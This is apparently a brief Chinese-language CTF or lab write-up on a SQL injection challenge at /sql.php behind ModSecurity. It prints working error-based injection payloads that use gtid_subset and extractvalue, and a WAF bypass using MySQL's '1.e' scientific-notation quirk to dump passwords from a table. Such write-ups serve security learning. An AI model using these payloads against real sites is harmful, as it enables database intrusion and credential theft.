 ![[Pasted image 20221204150847.png]]

---
首页长这样

![[Pasted image 20221204150928.png|700]]

有WAF

![[Pasted image 20221204151030.png|700]]
```php
/sql.php?id=1 and gtid_subset(version(),1);
```
通过报错注入能查询到version

![[Pasted image 20221204151225.png|700]]

利用`mysql 5.7`之前的科学计数的记号问题通过`1.e`实现`ModSecurity`的绕过
```php
/sql.php?id=1^1.e(extractvalue(1,concat(0x5c,(select(group_concat(password))from(info)))))
```
![[Pasted image 20221204172550.png]]

再输出后半段
```php
/sql.php?id=1^1.e(extractvalue(1,concat(0x5c,(select(group_concat(right(password,30)))from(info)))))
```

![[Pasted image 20221204172727.png|650]]

#Web #PHP #SQL注入 #modsecurity #报错注入 